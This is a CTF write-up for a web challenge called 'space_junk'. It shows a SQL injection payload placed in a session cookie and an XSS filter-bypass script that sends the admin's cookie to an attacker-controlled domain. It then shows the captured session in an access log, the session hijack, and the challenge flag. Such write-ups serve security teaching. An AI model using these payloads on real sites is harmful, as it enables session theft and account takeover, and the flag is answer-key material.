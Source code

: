 # 04-space_junk
## Hints
### (Hint 1) Edit 3-14-20 21:43 UTC
- We've received a transmission questioning the security of our sessions, we value our users security and privacy and we are monitoring this inquiry.
- This hint was meant to help people look at the session cookie, also inquiry is a synonym for query, which was a hint to a database query.


### (Hint 2) Edit 3-15-20  00:01 UTC
- We've investigated the query and have decided that we haven't found anything vulnerable so we feel like it is secure. -Management
- This hint was to be more direct about the query, which was again a hint about the sessions using a database.


## Step 1: blind sql logic injection of the session cookie
- This was a little out of left field, some source should have been released for this so people had some sort of idea what was going on.
- All you had to do was set the session cookie to `1' or 1=1 -- -`
- We get access to the /moderator/post and /moderator/status pages


## Step 2: xss in the username field
- Case insensitive single removal of:
    - script
    - onerror
    - img
- It also truncates the input to 126 characters


### Create a script to escape the filter using your domain
```
</title><sscriptcript>document.location='http://yourdomain.com?c='+document.cookie</sscriptcript><title>
```


### Check your access logs for session of admin
```
"GET /?c=session=38,100,000,000(38.1%20billion);%20is_bot=1 HTTP/1.1" 200 423 "http://localhost:3000/moderator/post" "Mozilla/5.0 Chrome/10.0.613.0 Safari/534.15 Zombie.js/6.1.4"
```
- Use the session in your session cookies to session hijack the admin and then you get access to /admin and the flag


# Flag
- pctf{cyber_truck_more_like_cyber_rocket}
